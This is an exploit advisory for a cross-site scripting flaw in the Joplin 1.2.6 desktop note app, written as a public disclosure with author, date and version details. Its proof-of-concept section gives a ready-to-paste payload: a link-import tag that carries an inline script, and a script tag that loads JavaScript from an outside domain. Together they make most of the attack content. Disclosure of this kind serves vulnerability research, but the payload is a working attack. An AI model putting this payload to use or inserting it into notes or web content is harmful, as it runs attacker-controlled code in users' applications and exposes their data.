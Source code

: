 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-10-27 <br>
 Exploit Author: Philip Holbrook (@fhlipZero) <br>
 Vendor Homepage: https://joplinapp.org/ <br>
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6  <br>
 Version: 1.2.6  <br>
 Tested on: Windows / Mac  <br>
 CVE : PENDING  <br>
 References:  <br>
 PENDING next release <br>

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>


![Screen Shot 2020-10-27 at 4.42.34 PM.png](./60b6772ab455487b92268ad45a6dd677.png)

![Screen Shot 2020-10-27 at 4.42.51 PM.png](./7f76fb066b9d4e3bad4c4b59538140e4.png)

